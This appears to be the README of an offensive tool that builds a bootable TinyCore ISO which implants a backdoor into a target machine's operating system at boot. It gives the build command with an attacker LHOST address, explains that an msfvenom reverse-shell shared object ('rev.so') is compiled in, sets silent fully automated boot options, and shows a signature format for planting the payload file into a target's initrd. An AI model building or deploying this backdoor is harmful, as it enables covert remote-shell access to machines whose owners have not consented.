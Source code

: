 ## Details
### Compiling
See the `Makefile` for more information/configuration, `LHOST` is required in the
environment to build the `.so` as `msfvenom` is piped in at compile time. It is also necessary to have `libcrypsetup-dev` (or equivalent) installed on the build machine.

Generic Instructions (builds iso image in cwd):
`LHOST=192.168.56.101 make rev.so iso`


### isolinux.cfg
The following options have been appended to the kernel boot:

`mc superuser nodhcp quiet loglevel=0`

Furthermore, the `prompt` value has been set to `0` to allow fully automated
execution.

### Timing
Approximate nefarious boot -> backdoored time: ~2 minutes
Approximate legit boot -> shell ~90 seconds (configurable, we want networking
up before us)

### Prerequisites
`core.d` is an unpacked core.gz from TinyCore with the below packages merged in.

`Core-current` is an unpacked `Core-current.iso`

The following packages have been installed inside tinycore (python, filesystem support):

 * bzip2-lib.tcz
 * filesystems-3.16.6-tinycore.tcz
 * gdbm.tcz
 * libffi.tcz
 * mtd-3.16.6-tinycore.tcz
 * ncurses.tcz
 * openssl.tcz
 * python.tcz
 * readline.tcz
 * sqlite3.tcz

### Adding new signatures
At a minimum signature is as follows:

```
"exampleOS" : {
    "IDENTIFIER" : "grep EXAMPLEOS etc/initrd-release",
    "ROOT" : "${rootmnt}",
    "FILENAME" : "/ldlinux.so.1",
    "INITRDFILENAME" : "hda1"
}
```
